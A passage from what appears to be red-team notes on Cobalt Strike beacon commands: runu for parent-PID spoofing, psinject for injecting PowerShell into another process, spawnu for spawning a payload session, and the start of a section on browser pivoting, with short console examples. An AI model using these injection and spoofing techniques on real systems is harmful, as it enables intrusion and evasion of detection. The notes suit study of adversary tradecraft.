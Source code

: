 ### Runu

Runu allows us launching a new process from a specified parent process:

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-39-20.png)

### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-44-30.png)

Highlighted in green are new handles that are opened in the target process when powershell script is being injected:

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)

### Browser Pivoting

This feature enables an attacker riding on compromised user's browsing sessions.
